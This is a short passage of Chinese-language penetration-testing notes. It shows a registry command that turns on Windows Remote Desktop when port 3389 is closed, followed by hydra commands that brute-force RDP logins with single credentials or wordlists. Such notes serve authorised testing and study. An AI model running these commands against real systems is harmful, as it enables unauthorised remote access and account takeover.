 ![image](images/rk4u69AUT.png)

#### 如果3389端口未開，可以藉由登入檔修改突破

reg add rdp
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### 強大的密碼爆破工具--hydra

```
hydra rdp://<ip> -l <user> -p '<password>'
```
使用帳號字典檔
```
hydra rdp://<ip> -L <帳號字典檔> -p '<password>'
```
使用密碼字典檔
```
hydra rdp://<ip> -l <user> -P <密碼字典檔>
```